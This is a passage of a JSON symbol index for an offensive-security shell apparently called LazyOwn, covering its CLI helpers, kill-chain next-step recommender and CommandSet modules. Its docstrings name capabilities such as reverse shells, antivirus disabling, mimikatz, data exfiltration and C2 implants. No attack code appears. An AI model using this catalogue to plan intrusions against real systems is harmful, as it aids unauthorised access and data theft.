raw terminal readers when stdin is an interactive TTY so\nESC and Ctrl+C work without pressing Enter. Falls back to the\ninjected ``input_fn`` (tests, pipes) or the builtin ``input`` for\nnon-TTY interactive streams.\n\nReturns:\n    The operator's line, or raises ``_ChainEscExit`` /\n    ``KeyboardInterrupt`` / ``EOFError``.", "kind": "method", "line": 428, "name": "_prompt_line", "signature": "def _prompt_line(self)"}, {"kind": "method", "line": 450, "name": "_suggest", "signature": "def _suggest(self, verb, phase)"}, {"kind": "method", "line": 468, "name": "_render_menu", "signature": "def _render_menu(self, verb, suggestions)"}, {"kind": "method", "line": 485, "name": "_run", "signature": "def _run(self, command)"}, {"kind": "method", "line": 491, "name": "_disable", "signature": "def _disable(self, reason)"}]}, {"doc": "CLI enhancement primitives for the LazyOwn interactive shell.  This module exposes SOLID, framework-agnostic building blocks used by the ``cli/commands/audit.py`` CommandSet to extend the LazyOwn shell with:  - Fuzzy command discovery (item 4). - Payload-aware tab completion (item 5). - Dynamic alias resolution at execution time (item 6). - Hot-reload of declarative addons / Lua plugins (item 7). - Live tail of long-running commands' partial output (item 8). - Transcript indexing + grep across recent command outputs (item 10). - Interactive forms for commands with many parameters (item 11).  Design notes ------------ - Each primitive depends on small ``typing.Protocol`` interfaces so unit tests can substitute fakes without spinning up a cmd2 shell. - Filesystem and runtime side effects live in concrete adaptors only; the algorithmic core is pure. - No imports from ``lazyown.py`` are allowed: the shell composes these primitives, not the other way around (Dependency Inversion).", "id": "cli/cli_enhancements.py", "kind": "module", "label": "cli_enhancements.py", "language": "py", "sha256": "8c2ada4796add507", "symbol_count": 69, "symbols": [{"doc": "Read-only view onto ``payload.json`` style configuration.", "kind": "class", "line": 40, "name": "PayloadProvider", "signature": "class PayloadProvider(Protocol)"}, {"doc": "Source of command metadata for indexing / fuzzy matching.", "kind": "class", "line": 47, "name": "CommandLister", "signature": "class CommandLister(Protocol)"}, {"doc": "Minimal duck-typed prompt/print pair so tests can fake it.", "kind": "class", "line": 53, "name": "TerminalIO", "signature": "class TerminalIO(Protocol)"}, {"doc": "Lightweight description of a shell command.", "kind": "class", "line": 61, "name": "CommandInfo", "signature": "class CommandInfo"}, {"doc": "A scored fuzzy match against a CommandInfo.", "kind": "class", "line": 75, "name": "FuzzyMatch", "signature": "class FuzzyMatch"}, {"doc": "Search a command catalogue with token-aware fuzzy matching.\n\nScoring favours exact and prefix matches over substring and\nsimilarity-only hits, then falls back to ``difflib.SequenceMatcher``\nso the index degrades gracefully when ``rapidfuzz`` is missing.", "kind": "class", "line": 83, "name": "FuzzyCommandIndex", "signature": "class FuzzyCommandIndex"}, {"doc": "A single tab-completion suggestion.", "kind": "class", "line": 138, "name": "CompletionResult", "signature": "class CompletionResult"}, {"doc": "Suggest values from ``payload.json`` for context-sensitive arguments.\n\nThe completer is intentionally simple — it inspects the command name and\nthe partial token under the cursor and returns suggestions drawn from:\n\n- ``rhost`` and ``targets[*].ip`` for ``set rhost``, ``set domain`` etc.\n- Wordlist files on disk for ``gobuster``, ``ffuf``, ``hashcat``.\n- Available addons and Lua plugins for ``run`` / ``reload``.\n- Stored credentials for ``evil``, ``cme``, ``secretsdump``.\n\nThe shell's existing ``complete_*`` per-command hooks remain authoritative\nwhere they exist; this helper is invoked from ``completedefault`` to fill\nthe gap for the ~280 commands that don't define their own.", "kind": "class", "line": 145, "name": "PayloadAwareCompleter", "signature": "class PayloadAwareCompleter"}, {"doc": "Resolves alias templates into executable command strings.", "kind": "class", "line": 234, "name": "AliasResolver", "signature": "class AliasResolver(ABC)"}, {"doc": "Resolve placeholders at execution time, not at shell load.\n\nThe previous loader pre-substituted ``{rhost}`` etc. against the payload\nsnapshot taken at startup. That meant editing ``payload.json`` at runtime\n(e.g. via ``set rhost X``) only affected commands invoked through cmd2's\nonecmd_plus_hooks pathway. This resolver always renders against the\npayload provided by the caller, so a ``set rhost`` immediately propagates\nto every alias the operator types next.", "kind": "class", "line": 242, "name": "DynamicAliasResolver", "signature": "class DynamicAliasResolver(AliasResolver)"}, {"doc": "Notify subscribers when a watched directory changes.", "kind": "class", "line": 270, "name": "HotReloader", "signature": "class HotReloader(ABC)"}, {"doc": "Polling watcher over ``lazyaddons/`` and ``plugins/``.\n\nA polling loop is intentionally chosen over watchdog inotify so this\nworks on remote shells, in containers, and over NFS — environments where\ninotify is unreliable. Pass a fast tick (e.g. 2.0s) when used interactively.", "kind": "class", "line": 280, "name": "AddonHotReloader", "signature": "class AddonHotReloader(HotReloader)"}, {"doc": "One progress observation parsed from a partial scan output.", "kind": "class", "line": 362, "name": "StatusUpdate", "signature": "class StatusUpdate"}, {"doc": "Parse a partial nmap / pwntomate file and emit a structured update.\n\nThe parser is best-effort and forgiving: anything it doesn't recognise\nbecomes ``last_line`` so the operator still sees something live.", "kind": "class", "line": 371, "name": "LiveStatusTail", "signature": "class LiveStatusTail"}, {"doc": "A captured command + output pair.", "kind": "class", "line": 418, "name": "TranscriptEntry", "signature": "class TranscriptEntry"}, {"doc": "In-memory ring buffer of recent command outputs with regex grep.\n\nPersists to ``sessions/_cli_transcript.jsonl`` so a restart does not lose\nthe history; on startup the most recent ``capacity`` entries are loaded\nback. Each entry stores: timestamp, command, output (truncated to\n``max_output_chars``), and artefact paths the command claims to have\nproduced (informational only).", "kind": "class", "line": 427, "name": "TranscriptStore", "signature": "class TranscriptStore"}, {"doc": "Specification for one input in an interactive form.", "kind": "class", "line": 555, "name": "FormField", "signature": "class FormField"}, {"doc": "A bundle of form fields plus a target command name.", "kind": "class", "line": 566, "name": "FormSpec", "signature": "class FormSpec"}, {"doc": "Std-in/out adaptor; falls back to non-interactive defaults gracefully.", "kind": "class", "line": 574, "name": "_DefaultTerminalIO", "signature": "class _DefaultTerminalIO"}, {"doc": "Walk the operator through a form, returning a populated dict.\n\nValidates required fields and accepts ``options`` constraints. Falls back\nto defaults silently when the IO layer is non-interactive (CI, scripts).", "kind": "class", "line": 588, "name": "InteractiveForm", "signature": "class InteractiveForm"}, {"doc": "Wrap any plain ``dict`` so it satisfies :class:`PayloadProvider`.", "kind": "class", "line": 635, "name": "DictPayloadProvider", "signature": "class DictPayloadProvider"}, {"doc": "Source for FuzzyCommandIndex backed by a fixed list of CommandInfo.", "kind": "class", "line": 651, "name": "StaticCommandLister", "signature": "class StaticCommandLister"}, {"doc": "Best-effort extraction of CommandInfo entries from a live cmd2 shell.\n\nUses ``shell.get_all_commands()`` when available; otherwise falls back\nto scanning ``do_*`` attributes. Aliases are pulled from ``shell.aliases``.", "kind": "function", "line": 661, "name": "commands_from_cmd2_shell", "signature": "def commands_from_cmd2_shell(shell)"}, {"kind": "function", "line": 696, "name": "_extract_doc", "signature": "def _extract_doc(shell, name)"}, {"kind": "method", "line": 43, "name": "get", "signature": "def get(self, key, default)"}, {"kind": "method", "line": 44, "name": "keys", "signature": "def keys(self)"}, {"kind": "method", "line": 50, "name": "commands", "signature": "def commands(self)"}, {"kind": "method", "line": 56, "name": "prompt", "signature": "def prompt(self, message, default)"}, {"kind": "method", "line": 57, "name": "emit", "signature": "def emit(self, line)"}, {"kind": "method", "line": 91, "name": "__init__", "signature": "def __init__(self, source)"}, {"doc": "Return the top ``limit`` matches ordered by descending score.", "kind": "method", "line": 94, "name": "search", "signature": "def search(self, query, limit)"}, {"kind": "method", "line": 109, "name": "_score", "signature": "def _score(info, q)"}, {"kind": "method", "line": 164, "name": "__init__", "signature": "def __init__(self, payload, addon_lister, plugin_lister, credential_lister)"}, {"doc": "Return suggestions for ``partial`` given the leading ``command``.", "kind": "method", "line": 176, "name": "complete", "signature": "def complete(self, command, partial)"}, {"kind": "method", "line": 196, "name": "_suggest_payload_keys", "signature": "def _suggest_payload_keys(self, partial)"}, {"kind": "method", "line": 202, "name": "_suggest_targets", "signature": "def _suggest_targets(self, partial)"}, {"kind": "method", "line": 213, "name": "_suggest_wordlist_keys", "signature": "def _suggest_wordlist_keys(self, partial)"}, {"kind": "method", "line": 221, "name": "_suggest_addons", "signature": "def _suggest_addons(self, partial)"}, {"kind": "method", "line": 224, "name": "_suggest_plugins", "signature": "def _suggest_plugins(self, partial)"}, {"kind": "method", "line": 227, "name": "_suggest_credentials", "signature": "def _suggest_credentials(self, partial)"}, {"doc": "Return the alias rendered against the current payload.", "kind": "method", "line": 238, "name": "expand", "signature": "def expand(self, alias_name, raw_template, payload)"}, {"kind": "method", "line": 255, "name": "expand", "signature": "def expand(self, alias_name, raw_template, payload)"}, {"kind": "method", "line": 274, "name": "start", "signature": "def start(self)"}, {"kind": "method", "line": 277, "name": "stop", "signature": "def stop(self)"}, {"kind": "method", "line": 288, "name": "__init__", "signature": "def __init__(self, directories, on_change, tick_seconds)"}, {"kind": "method", "line": 301, "name": "start", "signature": "def start(self)"}, {"kind": "method", "line": 313, "name": "stop", "signature": "def stop(self)"}, {"doc": "Run a single scan, fire callbacks for changed paths, return them.", "kind": "method", "line": 319, "name": "poll_once", "signature": "def poll_once(self)"}, {"kind": "method", "line": 336, "name": "_loop", "signature": "def _loop(self)"}, {"kind": "method", "line": 341, "name": "_scan", "signature": "def _scan(self)"}, {"kind": "method", "line": 382, "name": "parse", "signature": "def parse(self, content)"}, {"kind": "method", "line": 437, "name": "__init__", "signature": "def __init__(self, sessions_dir, capacity, max_output_chars)"}, {"kind": "method", "line": 451, "name": "append", "signature": "def append(self, command, output, artefacts)"}, {"doc": "Return matching lines across all stored outputs.", "kind": "method", "line": 465, "name": "grep", "signature": "def grep(self, pattern, command_filter, limit, case_insensitive)"}, {"kind": "method", "line": 497, "name": "list", "signature": "def list(self, limit)"}, {"kind": "method", "line": 509, "name": "_persist", "signature": "def _persist(self, entry)"}, {"kind": "method", "line": 527, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 577, "name": "prompt", "signature": "def prompt(self, message, default)"}, {"kind": "method", "line": 584, "name": "emit", "signature": "def emit(self, line)"}, {"kind": "method", "line": 595, "name": "__init__", "signature": "def __init__(self, io)"}, {"kind": "method", "line": 598, "name": "render", "signature": "def render(self, spec, defaults)"}, {"kind": "method", "line": 619, "name": "_field_label", "signature": "def _field_label(field_spec, default)"}, {"kind": "method", "line": 638, "name": "__init__", "signature": "def __init__(self, data)"}, {"kind": "method", "line": 641, "name": "get", "signature": "def get(self, key, default)"}, {"kind": "method", "line": 644, "name": "keys", "signature": "def keys(self)"}, {"kind": "method", "line": 647, "name": "update", "signature": "def update(self, data)"}, {"kind": "method", "line": 654, "name": "__init__", "signature": "def __init__(self, commands)"}, {"kind": "method", "line": 657, "name": "commands", "signature": "def commands(self)"}, {"kind": "function", "line": 256, "name": "_sub", "signature": "def _sub(m)"}]}, {"doc": "Command chain registry: explicit prerequisites and dynamic next steps.  The chain answers two questions for both the human operator and the AI:  1. ``prev(cmd)`` — what should have run **before** ``cmd`` so it makes sense. These are static prerequisites declared once and shared by CLI and MCP. 2. ``next(cmd, params, target)`` — what to run **after** ``cmd``. Combines a static kill-chain map (deterministic, fast) with a dynamic resolver that consults the latest nmap services and the exploration engine so the recommendation reflects the actual attack surface.  Design (SOLID):  - ``ChainConfig`` centralises every magic value (history filename, default fan-out, service-to-followup table). - ``PrerequisiteRegistry`` owns the static prev map (one reason to change). - ``StaticNextRegistry`` reuses ``cli.reactive_hints._KILL_CHAIN_NEXT`` so the static next-hop table stays single-source. - ``ServiceNextResolver`` is a pure ranking primitive over discovered services. - ``DynamicNextResolver`` composes static + service + exploration-engine signals into an ordered, de-duplicated suggestion list with provenance. - ``CommandChain`` is the facade consumed by CLI (``do_prev`` / ``do_next``), MCP (``lazyown_command_prev`` / ``lazyown_command_next``), and any future TUI widget.  Zero coupling to ``cmd2``, ``flask``, ``rich`` or ``lazyown.py``.", "id": "cli/command_chain.py", "kind": "module", "label": "command_chain.py", "language": "py", "sha256": "34124ebadeb7fba4", "symbol_count": 25, "symbols": [{"doc": "Centralised constants for the command chain module.", "kind": "class", "line": 123, "name": "ChainConfig", "signature": "class ChainConfig"}, {"doc": "A single recommended next command, with provenance for the operator.", "kind": "class", "line": 132, "name": "NextStep", "signature": "class NextStep"}, {"doc": "Strip an optional ``do_`` prefix and lowercase the verb.", "kind": "function", "line": 145, "name": "_normalise", "signature": "def _normalise(name)"}, {"doc": "Static prev-map registry. One reason to change: the prerequisite table.", "kind": "class", "line": 156, "name": "PrerequisiteRegistry", "signature": "class PrerequisiteRegistry"}, {"doc": "Wrapper over the legacy ``_KILL_CHAIN_NEXT`` map (shared source).", "kind": "class", "line": 177, "name": "StaticNextRegistry", "signature": "class StaticNextRegistry"}, {"doc": "Map nmap-discovered services to follow-up verbs.", "kind": "class", "line": 193, "name": "ServiceNextResolver", "signature": "class ServiceNextResolver"}, {"doc": "Compose static, service, and exploration signals into an ordered list.", "kind": "class", "line": 219, "name": "DynamicNextResolver", "signature": "class DynamicNextResolver"}, {"doc": "Facade exposing prev + next to CLI, MCP, and future TUI widgets.", "kind": "class", "line": 335, "name": "CommandChain", "signature": "class CommandChain"}, {"doc": "Return a JSON-friendly representation of the step.", "kind": "method", "line": 139, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Store the configuration that owns the prerequisite table.", "kind": "method", "line": 159, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return the ordered list of prerequisite commands for ``cmd``.", "kind": "method", "line": 164, "name": "prerequisites", "signature": "def prerequisites(self, cmd)"}, {"doc": "Return prerequisites that have **not** yet appeared in ``history``.", "kind": "method", "line": 170, "name": "missing", "signature": "def missing(self, cmd, history)"}, {"doc": "Return the deterministic kill-chain successors of ``cmd``.", "kind": "method", "line": 180, "name": "next_for", "signature": "def next_for(self, cmd)"}, {"doc": "Return the phase-priority verbs used as a fallback.", "kind": "method", "line": 186, "name": "phase_priority", "signature": "def phase_priority(self, phase)"}, {"doc": "Store the configuration providing the service follow-up table.", "kind": "method", "line": 196, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return ``(verb, reason)`` pairs for every triggered follow-up.", "kind": "method", "line": 201, "name": "followups", "signature": "def followups(self, services)"}, {"doc": "Wire collaborators together. All arguments are injectable for tests.", "kind": "method", "line": 222, "name": "__init__", "signature": "def __init__(self, config, static_registry, service_resolver, exploration_engine)"}, {"doc": "Return the ordered, de-duplicated next-step recommendations.\n\nArgs:\n    cmd: The command that just ran. Pass an empty string when the\n        caller wants suggestions for the current engagement instead\n        of a specific predecessor.\n    params: Live payload mapping (used to resolve victim OS for\n        addon/tool filtering). Optional.\n    target: Optional rhost filter for nmap XML lookups.\n    phase: Current engagement phase identifier. Used only when the\n        static and dynamic resolvers return nothing.\n    limit: Maximum number of steps to return. Defaults to\n        ``ChainConfig.default_limit``.\n\nReturns:\n    Ordered list of :class:`NextStep`. Empty when no signal exists.", "kind": "method", "line": 236, "name": "resolve", "signature": "def resolve(self, cmd, params, target, phase, limit)"}, {"kind": "method", "line": 308, "name": "_ensure_engine", "signature": "def _ensure_engine(self, params)"}, {"kind": "method", "line": 318, "name": "_append", "signature": "def _append(steps, seen, name, source, reason, history)"}, {"doc": "Wire collaborators together using the supplied configuration.", "kind": "method", "line": 338, "name": "__init__", "signature": "def __init__(self, config, prerequisites, next_resolver)"}, {"doc": "Return the ordered prerequisite commands for ``cmd``.", "kind": "method", "line": 350, "name": "prev", "signature": "def prev(self, cmd)"}, {"doc": "Return prerequisites of ``cmd`` not present in ``history``.", "kind": "method", "line": 355, "name": "missing_prerequisites", "signature": "def missing_prerequisites(self, cmd, history)"}, {"doc": "Return ordered next-step recommendations. See :meth:`DynamicNextResolver.resolve`.", "kind": "method", "line": 360, "name": "next", "signature": "def next(self, cmd, params, target, phase, limit)"}, {"doc": "Return a serialisable ``{prev, next}`` view for the given command.", "kind": "method", "line": 372, "name": "chain", "signature": "def chain(self, cmd, params, target, phase, limit)"}]}, {"doc": "Interactive command explorer by phase and goal for the LazyOwn shell.  Organizes the 727+ commands into user-friendly categories based on what the operator wants to accomplish, not technical groupings.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``CommandExplorer`` receives its dependencies via constructor.", "id": "cli/command_explorer.py", "kind": "module", "label": "command_explorer.py", "language": "py", "sha256": "2c36084f5e1ec9f2", "symbol_count": 7, "symbols": [{"doc": "Centralised constants for the command explorer.", "kind": "class", "line": 189, "name": "ExplorerConfig", "signature": "class ExplorerConfig"}, {"doc": "Load the command index JSON. Returns empty dict on failure.", "kind": "function", "line": 195, "name": "_load_command_index", "signature": "def _load_command_index(path)"}, {"doc": "Interactive command explorer organized by user goals.\n\nArgs:\n    aliases: Live aliases dict from the shell.\n    params: Live params dict from the shell.\n    config: Optional config override.", "kind": "class", "line": 207, "name": "CommandExplorer", "signature": "class CommandExplorer"}, {"kind": "method", "line": 216, "name": "__init__", "signature": "def __init__(self, aliases, params, config)"}, {"doc": "Print the goals table showing all available categories.", "kind": "method", "line": 227, "name": "render_goals_overview", "signature": "def render_goals_overview(self)"}, {"doc": "Print commands for a specific goal.", "kind": "method", "line": 240, "name": "render_goal_commands", "signature": "def render_goal_commands(self, goal_key)"}, {"doc": "Search commands by keyword across all goals.", "kind": "method", "line": 260, "name": "render_search", "signature": "def render_search(self, query)"}]}, {"doc": "Textual form-mode launcher for LazyOwn commands.  The form turns any ``do_*`` command into a guided launcher: the operator picks a command name, sees the inferred summary, reviews the relevant ``payload.json`` values that the command would read, types optional extra arguments, and confirms with Enter. The launcher returns the final command string so the cmd2 shell can dispatch it as if the operator had typed it.  The form does not parse argparser specifications today — it surfaces the fields most commonly tuned per invocation (target, ports, wordlists, custom args) so the operator no longer has to remember flag names from the docs. New per-command fields are added by extending :attr:`CommandFormConfig.field_sets`.  Design (SOLID):  - Single Responsibility: :class:`CommandFormConfig` owns constants, :class:`CommandFormState` builds the field list and assembles the final command, :class:`CommandFormApp` renders. - Open/Closed: a new per-command field set is one tuple entry in the config; the state and the app do not change. - Dependency Inversion: the state takes a pre-loaded command index + payload mapping; tests inject in-memory dicts.", "id": "cli/command_form.py", "kind": "module", "label": "command_form.py", "language": "py", "sha256": "d16035d31b5d60a7", "symbol_count": 31, "symbols": [{"doc": "Single editable input in the form.", "kind": "class", "line": 37, "name": "FormField", "signature": "class FormField"}, {"doc": "Fields the form surfaces for a given command name.", "kind": "class", "line": 48, "name": "CommandFieldSet", "signature": "class CommandFieldSet"}, {"doc": "Centralised constants for the form-mode launcher.", "kind": "class", "line": 56, "name": "CommandFormConfig", "signature": "class CommandFormConfig"}, {"doc": "Pure data layer for the form.", "kind": "class", "line": 116, "name": "CommandFormState", "signature": "class CommandFormState"}, {"kind": "function", "line": 236, "name": "_load_index", "signature": "def _load_index()"}, {"doc": "Wire the canonical state used by :func:`launch_form`.", "kind": "function", "line": 247, "name": "build_state", "signature": "def build_state(command_name, payload, index, config)"}, {"doc": "Open the form and return the populated state on submit.\n\nArgs:\n    command_name: ``do_*`` (or plain verb) to pre-fill.\n    payload: Loaded ``payload.json``.\n    state: Optional pre-built state (tests inject one).\n    runner: Optional callable used by tests instead of Textual.\n\nReturns:\n    The :class:`CommandFormState` the operator confirmed, or\n    ``None`` when cancelled / Textual is unavailable. The caller\n    applies :meth:`CommandFormState.overrides` through ``assign``\n    and dispatches :meth:`CommandFormState.verb_line`.", "kind": "function", "line": 262, "name": "launch_form", "signature": "def launch_form(command_name, payload, state, runner)"}, {"kind": "function", "line": 298, "name": "_build_app", "signature": "def _build_app(state, theme)"}, {"kind": "method", "line": 126, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"doc": "Return the fields associated with :attr:`command_name`.", "kind": "method", "line": 131, "name": "fields", "signature": "def fields(self)"}, {"doc": "Return the command summary from the index, or an empty string.", "kind": "method", "line": 139, "name": "summary", "signature": "def summary(self)"}, {"doc": "Update the value of one field.", "kind": "method", "line": 150, "name": "set_value", "signature": "def set_value(self, identifier, value)"}, {"doc": "Replace the extra-args buffer.", "kind": "method", "line": 154, "name": "set_extra_args", "signature": "def set_extra_args(self, value)"}, {"doc": "Return the cmd-line preview string the operator sees.\n\nThe preview is a single readable line — overrides are rendered\nas inline ``key=value`` annotations. The actual dispatch in\n:class:`LazyOwnShell.do_form` applies overrides one at a time\nthrough ``assign`` (see :meth:`overrides` + :meth:`verb_line`)\nso the form never depends on cmd2's settable subsystem.", "kind": "method", "line": 158, "name": "build_command", "signature": "def build_command(self)"}, {"doc": "Return ``[(payload_key, value), ...]`` for fields the operator changed.\n\nEach pair is applied through ``assign`` by the dispatcher so the\nmutation is validated and persisted just like a manual\n``assign rhost 10.0.0.5`` would be.", "kind": "method", "line": 173, "name": "overrides", "signature": "def overrides(self)"}, {"doc": "Return ``\"<verb> <extra_args>\"`` ready for the shell.", "kind": "method", "line": 188, "name": "verb_line", "signature": "def verb_line(self)"}, {"doc": "Return ``True`` when the command name is known in the index.", "kind": "method", "line": 195, "name": "is_valid", "signature": "def is_valid(self)"}, {"kind": "method", "line": 200, "name": "_default_for", "signature": "def _default_for(self, field_spec)"}, {"kind": "method", "line": 205, "name": "_payload_str", "signature": "def _payload_str(self, key)"}, {"kind": "method", "line": 213, "name": "_iter_rows", "signature": "def _iter_rows(self)"}, {"kind": "method", "line": 220, "name": "_normalise_command", "signature": "def _normalise_command(name)"}, {"kind": "method", "line": 229, "name": "_verb", "signature": "def _verb(name)"}, {"kind": "class", "line": 309, "name": "_CommandFormApp", "signature": "class _CommandFormApp(App)"}, {"kind": "method", "line": 325, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 330, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 348, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 351, "name": "on_input_changed", "signature": "def on_input_changed(self, event)"}, {"kind": "method", "line": 360, "name": "on_input_submitted", "signature": "def on_input_submitted(self, event)"}, {"kind": "method", "line": 363, "name": "action_submit", "signature": "def action_submit(self)"}, {"kind": "method", "line": 366, "name": "action_cancel", "signature": "def action_cancel(self)"}, {"kind": "method", "line": 369, "name": "_refresh_preview", "signature": "def _refresh_preview(self)"}]}, {"doc": "Phase-scoped CommandSet modules.  Each submodule defines one or more ``cmd2.CommandSet`` subclasses grouping commands that share a kill-chain phase or attack domain. ``cli.registry`` discovers and registers them onto ``LazyOwnShell`` at startup.  Active CommandSets (27) -----------------------  - ``cli.commands.recon`` — 12 commands (nmap, DNS, web fingerprinting) - ``cli.commands.enum``  — 10 commands (SMB, RPC, LDAP quick checks) - ``cli.commands.scan`` — Network scanning commands - ``cli.commands.exploit`` — 10 commands (sqlmap, lazypwn, rev, commix, download_exploit, img2cookie, wrapper, kusa, ticketer, www) - ``cli.commands.postexp`` — 8 commands (lazywebshell, disableav, mimikatzpy, scavenger, follina, shellcode, ofuscatorps1, atomic_lazyown) - ``cli.commands.persist`` — 7 commands (createwebshell, createrevshell, createwinrevshell, conptyshell, pwncatcs, revwin) - ``cli.commands.cred`` — 9 commands (hashcat, john2hash, hydra, medusa, crunch, cewl, sshkey, creds_py, spraykatz) - ``cli.commands.lateral`` — 8 commands (socat, chisel, set_proxychains, ngrok, ligolo, nc, wmiexec, ssh) - ``cli.commands.report`` — 8 commands (gpt, eyewitness, gowitness, createtargets, banners, vulns, create_session_json, malwarebazar) - ``cli.commands.privilege_escalation`` — 9 commands (linpeas, winpeas, pspy) - ``cli.commands.exfiltration`` — 19 commands (data exfiltration tools) - ``cli.commands.command_and_control`` — 6 commands (c2_status, c2_beacons, c2_keygen, c2_quickstart, c2_beacon_cmd, c2_implant) - ``cli.commands.cloud`` — 4 commands (cloud_metadata, cloud_buckets, cloud_scan, cloud_iam)", "id": "cli/commands/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "54efaae931c49c2c", "symbol_count": 0, "symbols": []}, {"doc": "Base class for phase-scoped ``CommandSet`` modules.  ``LazyOwnCommandSet`` extends :class:`cmd2.CommandSet` with the affordances that the legacy ``do_*`` methods rely on when they are lifted out of ``LazyOwnShell`` and into per-phase modules under ``cli/commands/``.  Two design constraints shape this base class:  1. The migrated methods must execute verbatim. They reference shell attributes such as ``self.params``, ``self.scripts``, ``self.c2_url`` and instance helpers like ``self.run_script``. Rewriting hundreds of call sites is unsafe; instead this base forwards unknown attribute reads to the bound shell once ``cmd2`` injects it through ``register_command_set``.  2. Forwarding must remain inert before registration. Tests instantiate sets directly to assert structure (method presence, decorators); those instances have no parent shell, so unknown attribute access must raise :class:`AttributeError` exactly as a plain class would.", "id": "cli/commands/_base.py", "kind": "module", "label": "_base.py", "language": "py", "sha256": "360041e56a2201cc", "symbol_count": 7, "symbols": [{"doc": "Extract ``--flag <value>`` pair shared by CommandSets.\n\nArgs:\n    args: Tokenised argument list.\n    flag: Flag name to locate.\n\nReturns:\n    Value following flag, else None.", "kind": "function", "line": 36, "name": "extract_flag", "signature": "def extract_flag(args, flag)"}, {"doc": "Base class for every phase ``CommandSet`` defined under ``cli.commands``.\n\nAttributes:\n    phase: Kill-chain phase identifier (``recon``, ``enum``, ...). Used\n        by tooling such as ``lazyown_phase_guide`` and the autonomous\n        daemon to filter commands by phase.\n    category: cmd2 help category label. Defaults to a Title-Case form\n        of ``phase`` when not set explicitly.", "kind": "class", "line": 53, "name": "LazyOwnCommandSet", "signature": "class LazyOwnCommandSet(CommandSet)"}, {"doc": "Return the bound parent shell, or ``None`` before registration.\n\n``cmd2`` stores the parent shell in a name-mangled private attribute\nand exposes it through the :attr:`cmd2.CommandSet._cmd` property, which\nraises :class:`CommandSetRegistrationError` until the set is\nregistered. This helper centralises that access so the migrated\n``do_*`` methods can forward attribute reads without leaking the cmd2\nregistration exception or depending on cmd2 internals.\n\nReturns:\n    The parent ``LazyOwnShell`` instance once the set is registered,\n    otherwise ``None``.", "kind": "method", "line": 67, "name": "_resolve_shell", "signature": "def _resolve_shell(self)"}, {"doc": "Return the live ``params`` dict owned by the parent shell.\n\nReturns:\n    The same dict object that ``LazyOwnShell.params`` exposes when\n    the set is registered, or an empty dict when it is not.", "kind": "method", "line": 88, "name": "params", "signature": "def params(self)"}, {"doc": "Return the parent shell's ``Config`` wrapper when available.\n\nReturns:\n    ``LazyOwnShell.config`` when the shell publishes it, otherwise\n    ``LazyOwnShell.params`` so callers always receive a mapping-\n    like object. Falls back to an empty dict before registration.", "kind": "method", "line": 99, "name": "payload", "signature": "def payload(self)"}, {"doc": "Forward unknown attribute access to the bound shell or utils.\n\n``cmd2`` binds the parent shell to ``self._cmd`` when the\n``CommandSet`` is registered. Migrated methods reference shell\nstate directly (``self.run_script``, ``self.c2_url``, ...) so this\nforwarder lets them execute unmodified once they are wired in.\n\nMigrated ``do_*`` methods also call single-underscore shell helpers\nthat stayed on ``LazyOwnShell`` (``self._scope_save``,\n``self._load_adversaries``, ``self._payload_factory``, ...). Those\nare forwarded to the bound shell as well; only dunder names and\n``complete_*`` completion probes are refused outright, because\nforwarding them would leak Python/cmd2 machinery. Private names are\nnever resolved from ``utils`` — a private helper only ever lives on\nthe shell.\n\nWhen a public name is not on the shell, the forwarder falls back to\nthe ``utils`` module namespace, giving migrated CommandSets access\nto every re-exported symbol (``os``, ``json``, ``glob``,\n``getprompt``, category constants, etc.) without per-file import\nboilerplate.\n\nArgs:\n    name: Attribute name requested by the caller.\n\nReturns:\n    The attribute value resolved on the bound shell or utils.\n\nRaises:\n    AttributeError: When ``name`` is a dunder or ``complete_*``\n        probe, when the shell is not yet bound (inert before\n        registration), or when neither the shell nor ``utils``\n        expose a public ``name``.", "kind": "method", "line": 112, "name": "__getattr__", "signature": "def __getattr__(self, name)"}, {"doc": "Forward prompt attribute writes to the bound shell.\n\nThe migrated ``do_*`` methods were written against ``LazyOwnShell``\nand assign ``self.custom_prompt`` / ``self.prompt`` expecting the\nshell to hold them. Without forwarding, those writes landed on the\nCommandSet and the Neon Box prompt never refreshed after ``assign``.\nOnly the two prompt names are forwarded; every other attribute stays\non the CommandSet so cmd2 internals remain untouched.\n\nArgs:\n    name: Attribute name being set.\n    value: Attribute value.", "kind": "method", "line": 164, "name": "__setattr__", "signature": "def __setattr__(self, name, value)"}]}, {"doc": "Dormancy marker for incrementally migrated command sets.  During the staged migration of the ``do_*`` methods from ``lazyown.py`` into phase-scoped ``CommandSet`` modules under ``cli/commands/``, both sources temporarily coexist:  * ``LazyOwnShell`` in ``lazyown.py`` still owns the canonical methods. * The new phase modules carry a parallel copy ready for activation.  If the new modules registered immediately, ``cmd2.register_command_set`` would raise ``CommandSetRegistrationError`` for every method that collides with an attribute already bound to the shell. To avoid that without sacrificing discoverability or test coverage, migrated sets inherit from :class:`PendingCommandSet`. ``cli.registry.register_command_sets`` skips any class flagged this way; once the originals are deleted from ``lazyown.py`` the base class is swapped to :class:`LazyOwnCommandSet` and the set joins the active registry on the next shell start.  Discovery (``iter_command_sets``) still yields pending sets so tests can validate their structure independently of activation.", "id": "cli/commands/_dormancy.py", "kind": "module", "label": "_dormancy.py", "language": "py", "sha256": "a20b153ad999f07f", "symbol_count": 2, "symbols": [{"doc": "Base class for migrated-but-not-yet-active phase command sets.\n\nSubclasses are discovered by :func:`cli.registry.iter_command_sets` but\nexcluded from :func:`cli.registry.register_command_sets`, so the\nframework boots without colliding with the equivalent ``do_*`` methods\nstill defined on :class:`LazyOwnShell`.\n\nActivation procedure:\n    1. Remove the equivalent ``do_*`` methods from ``lazyown.py``.\n    2. Change the subclass base from :class:`PendingCommandSet` to\n       :class:`LazyOwnCommandSet`.\n    3. Restart the shell (``./run``) or the MCP server\n       (``bash skills/mcp_restart.sh``).\n\nThe marker is read via ``getattr(cls, '__lazyown_pending__', False)``\nso non-marker subclasses always opt out by absence.", "kind": "class", "line": 30, "name": "PendingCommandSet", "signature": "class PendingCommandSet(LazyOwnCommandSet)"}, {"doc": "Return 